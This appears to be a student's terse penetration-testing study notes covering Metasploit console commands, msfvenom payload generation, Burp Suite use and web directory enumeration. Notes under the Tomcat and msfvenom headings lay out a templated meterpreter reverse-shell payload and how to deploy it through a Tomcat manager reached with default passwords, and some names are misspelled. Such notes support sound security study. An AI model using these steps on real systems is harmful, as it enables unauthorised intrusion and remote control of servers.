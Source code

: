 TOOLS:
	Msfvenom: program that create payloads
	
Commands:
	search -> to search exploit
	use *EXPLOIT* -> enter the exploit module
	back -> go back
	show options OR info -> show module options
	set *OPTION* *VALUE* -> set options
	show payloads -> show all payloads	
	exploit OR run -> to launch exploit
	Ctrl + Z -> background shell
	sessions -i -> show sessions


Some modules can take sessions as options. 

multi/handler -> listens for a specific payload

#TOMCAT
If it uses tomcat manager
*URL*/manager/html -> test default passwords
Can deploy war packages

can use msfvenom -> meterpeter reverse shell

#MSFVENOM
msfvenom --list payloads | grep linux -> all linux payloads
msfvenom --list payloads | grep java -> java payloads

msfvenom -p l*PAYLOAD* LHOST=*LHOST* LPORT=*LPORT* -f *FILETYPE* -o meterpeter_out

FILETYPE can be war, elf

staged payload -> small payload that downloads bigger payload (sometimes does not work)

Can load war file to tomcat manager and deploy it. Need to trigger page by accessing the page.

#METERPETER
*NOT FOR EXAM*
route -> can edit port mappings
portfwd -> for port forwarding


#BURPSUITE
extension FoxyProxy to set a proxy -> set burpsuite as proxy

RIGHT CLICK + set to repeater

in HTML Authorization: basic *BASE64 string* -> decoded it contains username and password 

BASE64 -> composed only of letters, number, =, /; often it ends with '=='

#WEB
Enumerate file and directories

robot.txt -> instructions for bots

*tools*:
gobuster -> gobuster dir -u *URL* -w *WORDLIST*
dirsearch100
